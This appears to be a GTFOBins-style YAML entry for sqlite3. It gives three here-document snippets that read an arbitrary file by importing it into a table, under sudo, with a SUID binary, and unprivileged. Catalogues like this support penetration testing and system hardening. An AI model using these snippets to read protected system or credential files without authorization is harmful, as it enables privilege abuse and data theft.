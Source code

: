 ```yaml
---
functions:
  sudo-enabled:
    - code: |
        LFILE=file_to_read
        sudo sqlite3 << EOF
        CREATE TABLE t(line TEXT);
        .import $LFILE t
        SELECT * FROM t;
        EOF
  suid-enabled:
    - code: |
        LFILE=file_to_read
        ./sqlite3 << EOF
        CREATE TABLE t(line TEXT);
        .import $LFILE t
        SELECT * FROM t;
        EOF
  file-read:
    - code: |
        LFILE=file_to_read
        sqlite3 << EOF
        CREATE TABLE t(line TEXT);
        .import $LFILE t
        SELECT * FROM t;
        EOF
---
```

